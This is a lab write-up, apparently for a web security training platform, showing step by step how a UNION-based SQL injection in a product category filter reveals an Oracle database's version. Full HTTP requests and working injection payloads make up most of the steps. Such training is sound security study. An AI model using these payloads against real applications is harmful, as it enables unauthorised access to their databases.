


# Lab: SQL injection attack, querying the database type and version on Oracle

## Lab Description
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

The objective is to exploit the SQL injection flaw to query the database type and version on Oracle, displaying the database version string to solve the lab.

---

## Step 1 — Intercept the Category Filter Request
Navigate to the application home page and select any product category filter (e.g., `Gifts`) to generate a filtered request.

Capture this HTTP `GET` request using Burp Suite and send it to the Repeater instrument for manual analysis.

### Example Base Request
GET /filter?category=Gifts HTTP/2
Host: 0abe008103b4855080bd08d900f10052.web-security-academy.net

---

## Step 2 — Identify SQL Injection Vulnerability
To test whether the `category` parameter interacts directly with the database backend, a single quote character (`'`) was appended to the input value.

### Modified Request
GET /filter?category=Gifts' HTTP/2
Host: 0abe008103b4855080bd08d900f10052.web-security-academy.net

### Result
* **HTTP Status Code:** 500 Internal Server Error
* **Response:** The application broke and threw an "Internal Server Error" message, confirming unvalidated parameter interpolation into the database query logic.

### Screenshots

---

## Step 3 — Determine the Number of Columns
To perform a successful `UNION` based SQL injection attack, the number of columns returned by the original query must be determined. 

In Oracle databases, every `SELECT` statement must include a `FROM` clause targeting a valid table. The built-in `FROM dual` table is utilized alongside `NULL` values to safely test the column count without breaking data-type constraints.

### Tested Payloads
1. `Gifts'+UNION+SELECT+NULL+FROM+dual--` -> Result: 500 Internal Server Error
2. `Gifts'+UNION+SELECT+NULL,NULL+FROM+dual--` -> Result: 200 OK

### Modified Request
GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL+FROM+dual-- HTTP/2
Host: 0abe008103b4855080bd08d900f10052.web-security-academy.net

### Result
* **HTTP Status Code:** 200 OK
* **Conclusion:** The application returned a successful response when two `NULL` columns were injected. This confirms that the original database query architecture utilizes exactly **2 columns**.

### Screenshots

---

## Step 4 — Exploit SQL Injection to Retrieve Oracle Version
With the column count confirmed to be 2, the next objective is to query the specific version information from the Oracle backend database. 

In Oracle, the database version details are stored inside the `v$version` system table, specifically under the `BANNER` column. The payload injects a `UNION SELECT` to retrieve the `BANNER` string into the first column and maps a `NULL` value to the second column to preserve query architecture.

### Payload Used
Gifts'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

### Modified Request
GET /filter?category=Gifts'+UNION+SELECT+BANNER,+NULL+FROM+v$version-- HTTP/2
Host: 0abe008103b4855080bd08d900f10052.web-security-academy.net

### Result
* **HTTP Status Code:** 200 OK
* **Response:** The database successfully executed the injected query, rendering the complete Oracle Database version string within the web application interface. The lab was officially marked as solved.

---

## Evidence
Burp Suite Repeater — Successful Database Version Leak  
Web Application — Lab Solved Notification

